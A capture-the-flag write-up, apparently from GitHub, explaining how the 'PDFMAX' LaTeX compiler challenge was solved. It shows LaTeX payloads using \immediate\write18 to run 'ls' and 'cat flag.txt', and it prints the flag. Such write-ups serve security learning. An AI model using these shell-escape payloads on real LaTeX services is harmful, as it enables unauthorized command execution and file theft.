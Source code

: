 # PDFMAX

* This is what happend! I typed this command to connect `nc jh2i.com 50029`, and read this line 
    > pdfmax is an online cloud LaTeX interpreter.  

    I have developed one website for my university, in which users can add multiple textbox, images and it will create PDF from LaTeX. I wanted to make it secure so I did some research. And found that by using LaTeX tags, we can read internal files, execute commands!

    ![PDFMAX](1.png)

* We can use `immediate\write18{ COMMAND_HERE }`, and compile the LaTeX, we can see the command output in the logs.
    
* Test for command execution
    * Select 2nd option to create latex file.
        ```latex
        \documentclass{article}
        \begin{document}
            immediate\write18{ls}
        \end{document}
        |0|
        ```
    * Now choose 3rd option to compile it, and you can see the output in the logs.
    ![ls](2.png)

* Then we just need to run `cat flag.txt` to get the flag.
    ```latex
    \documentclass{article}
    \begin{document}
        \immediate\write18{cat flag.txt}
    \end{document}
    |0|
    ```
    ![Flag](3.png)

    > ### LLS{write18_my_flag_down_immmediately}